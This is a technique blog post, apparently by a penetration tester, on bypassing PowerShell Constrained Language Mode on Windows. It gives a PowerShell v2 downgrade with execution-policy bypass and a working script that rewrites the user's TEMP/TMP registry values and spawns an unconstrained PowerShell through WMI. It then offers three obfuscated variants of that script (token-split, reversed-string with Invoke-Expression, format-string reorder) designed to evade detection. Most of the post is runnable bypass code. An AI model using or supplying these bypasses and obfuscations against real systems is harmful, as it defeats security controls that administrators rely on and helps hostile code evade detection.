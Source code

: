 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run the following however be aware that spawning a new session would spawn in full mode regardless if this is the default on your system.
I will leave it to the reader to do this.

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

Firstly, the most common way to bypass CLM is to simply downgrade to PowerShell version 2 if it is installed. You can do this by appending the '-version 2' argument.


```
powershell.exe -version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not suit your needs.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)

Below is an example of bypassing CLM when Constrained Language mode is enabled by default.

![img-description](/videos/CLM-Bypass.gif)
_executing the script_

CLM Bypass Default
------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments needed such the below:

PowerShell Specific Version
---------------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Token Based Obfuscated
----------------------

```
${C`U`RrtEmP} = ${enV:T`e`Mp}
${CUrRT`MP} = ${ENv:`T`mp}
${temp`B`YpAs`SPaTH} = ((("{0}{5}{3}{4}{1}{2}" -f 'C','wsYyKte','mp','Kw','indo',':Yy')) -RePlACe  'YyK',[cHar]92)
${TmPb`ypa`Ssp`Ath} = ((("{0}{1}{2}{3}" -f 'C:{0','}windows{','0}te','mp')) -F [cHAr]92)

&("{2}{1}{3}{0}"-f 'y','emPr','Set-It','opert') -Path ((("{0}{1}{2}{4}{3}"-f 'hkcu:','{0','}','ment','Environ'))-f [char]92) -Name ("{0}{1}"-f'T','mp') -Value "$TEMPBypassPath"
.("{3}{2}{4}{1}{0}"-f 'roperty','P','-It','Set','em') -Path ((("{0}{5}{6}{1}{3}{2}{4}"-f 'hk','NAtE','viro','n','nment','cu',':')) -creplacE'NAt',[cHAR]92) -Name ("{0}{1}"-f 'T','emp') -Value "$TMPBypassPath"

&("{0}{2}{4}{1}{3}" -f'In','Me','voke-W','thod','mi') -Class ("{2}{0}{3}{4}{1}"-f'i','s','w','n32_proce','s') -Name ("{0}{1}"-f'crea','te') -ArgumentList ("{3}{4}{1}{2}{0}" -f'l.exe','e','l','Powe','rsh')
&("{1}{0}" -f'eep','sl') 5


.("{2}{1}{0}{4}{3}"-f 'emPro','et-It','S','ty','per') -Path ((("{1}{2}{3}{0}{5}{4}"-f 'v','hk','cu:A','YlEn','nt','ironme')) -repLaCE ([cHAr]65+[cHAr]89+[cHAr]108),[cHAr]92) -Name ("{0}{1}"-f'T','mp') -Value ${cuRr`TMP}
.("{1}{0}{2}{3}"-f 'emPr','Set-It','opert','y') -Path ((("{2}{4}{3}{0}{1}"-f 'vironm','ent','hk','n','cu:4XQE')) -CREPLacE '4XQ',[cHar]92) -Name ("{1}{0}" -f 'emp','T') -Value ${cURr`T`Emp}
```

Reverse String Obfuscated
-------------------------

```
$0wN5  =  ")'x'+]31[diLLEHs$+]1[dIlLehS$ (&|)43]RaHC[,63]RaHC[,93]RaHC[,29]RaHC[  f-)'pmeTrr'+'uC}2{ eulaV- '+'p'+'m'+'e'+'T e'+'m'+'aN- }1{tn'+'emn'+'orivnE}0{'+':'+'uc'+'k'+'h'+'}'+'1{ htaP'+'-'+' y'+'tre'+'porPm'+'et'+'I'+'-'+'teS

p'+'mTrr'+'uC}2{ eula'+'V'+'- '+'pmT '+'emaN- }1{tnem'+'norivnE}'+'0{:uck'+'h}1{ htaP'+'- '+'ytrep'+'orPm'+'etI-teS'+'

kc'+'a'+'b t'+'i te'+'S'+'#
'+'

5'+' pe'+'els

'+'}3{e'+'x'+'e.ll'+'e'+'h'+'srew'+'oP}3{ tsiLtne'+'m'+'ug'+'rA- e'+'taerc '+'emaN-'+' '+'ssec'+'orp_23'+'n'+'iw'+' ss'+'a'+'lC-'+' d'+'ohte'+'MimW-e'+'k'+'o'+'vnI
'+'

}'+'3{h'+'taPs'+'sapyBPMT}'+'2{}3{'+' eulaV- pm'+'e'+'T e'+'maN'+'- '+'}'+'1{t'+'nem'+'nori'+'vnE}0'+'{:uck'+'h}1'+'{ '+'hta'+'P- y'+'trep'+'orPm'+'e'+'t'+'I'+'-teS'+'

}'+'3'+'{hta'+'P'+'s'+'s'+'ap'+'yBPMET}2{}3{ e'+'ula'+'V-'+' pmT'+' e'+'maN-'+' '+'}1'+'{tne'+'mn'+'orivnE'+'}0{:uckh}1{ htaP- '+'y'+'t'+'r'+'e'+'po'+'r'+'Pmet'+'I-'+'t'+'eS'+'


}3{p'+'m'+'et'+'}'+'0'+'{swod'+'n'+'i'+'w}0'+'{:C}3{ ='+' h'+'ta'+'Pssap'+'y'+'BPMT}'+'2{'+'

'+'}'+'3'+'{'+'pmet}0{'+'swodniw}0'+'{:'+'C}3{ '+'= h'+'taPs'+'sa'+'pyBPM'+'ET'+'}2{'+'

'+'pm'+'t:vne'+'}2'+'{ '+'='+' pmT'+'rruC}'+'2'+'{

pme'+'t:vne}2{'+' ='+' p'+'me'+'Trr'+'uC'+'}2{'(( ";.( $Env:coMSPeC[4,24,25]-jOIn'') ( "$( sv 'OFS' '' ) " +[STrIng]( (  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue[-1 ..-((  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue.lENGth )]) +"$(set  'ofs'  ' ' ) ")
```

Obfuscated String Reorder
-------------------------

```
(("{80}{106}{34}{40}{49}{45}{120}{29}{125}{124}{65}{87}{90}{70}{110}{41}{71}{112}{118}{96}{69}{8}{82}{103}{122}{119}{21}{14}{117}{5}{51}{55}{24}{94}{95}{83}{98}{88}{84}{53}{105}{99}{6}{31}{73}{32}{33}{77}{78}{23}{50}{48}{17}{109}{25}{111}{9}{100}{115}{104}{97}{37}{62}{102}{63}{75}{1}{22}{93}{66}{27}{57}{7}{44}{4}{38}{56}{26}{60}{30}{101}{13}{18}{52}{10}{114}{68}{3}{43}{86}{19}{15}{92}{108}{89}{59}{12}{76}{20}{123}{81}{46}{0}{35}{107}{16}{58}{36}{116}{113}{47}{61}{74}{72}{85}{67}{121}{54}{42}{79}{64}{2}{39}{28}{11}{91}"-f'1 -Nam','l',' -Value ','

#S','lass w','hTMPB','v','nvoke-WmiMeth','C:A','Path','hell.exefkI','rr','kcu:AZM','I','kI
4','Property -','rrTm','assP','Pow','tem','viron','tempf','ue fkI45hTMPB',' fkI4','=','-ItemPr','ocess -N','I
','hCu','env:t','-Argume','ir','-N','a','em','e Tmp -V','Se','ntMW','in32','45','p','
45hT',' ','et it ba','od -C',' 45','W','rope','EMPByp',' =','5hT','ypassPa','ers','emProperty -Path ','tMW1','th ','_pr','

I','p
','MW1h','ame create ','r','1 -N','emp -','emp','rrTm','Pathfk','cu:',' 5','I',':tm','EMPBy','1h','onmentMW1 ','ty -Path MW','Va','En','me Tmp -','Value','-Name T','45','tM','Z','Mwi','
Set-It','k','ck
Set-I','p = 45he','

','h ','nv','Temp','P','ypass',' fkIC:A','Z','th = fk','ronme','ndowsAZMtempfkI
','1hkcu:AZMEn',' ','ntList fk','ame T','Mwi','vi','MW','hCurrT','alue 45hCu','at','athfkI
Set','p
','operty -','p','mP','
sleep','MW1hkcu:AZMEn','t-Ite','5','assPa','sAZM','h','AZMEnvironmen','ndow','men','hCu','emp
45')).ReplaCE('MW1',[STRiNg][CHAR]39).ReplaCE('fkI',[STRiNg][CHAR]34).ReplaCE('45h','$').ReplaCE(([CHAR]65+[CHAR]90+[CHAR]77),'\') |& ( $pshoMe[4]+$pSHOme[34]+'X')
```

